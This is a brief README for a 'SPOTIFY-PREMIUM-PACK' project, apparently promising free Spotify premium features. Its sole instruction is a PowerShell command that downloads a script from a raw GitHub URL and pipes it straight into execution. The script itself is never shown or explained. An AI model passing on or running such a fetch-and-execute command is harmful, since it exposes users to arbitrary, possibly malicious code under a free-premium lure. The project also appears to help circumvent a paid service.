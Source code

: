# SPOTIFY-PREMIUM-PACK

# Introduction

This project was realized out by a 15-year-old guy with no knowledge, in his underpants in front of his PC, in 5 hours. (yes, this is real)

### Instructions

- Install Link :
  ```bash
  iwr -useb https://raw.githubusercontent.com/mhltsontop/test-for-now/main/install.ps1 | iex 
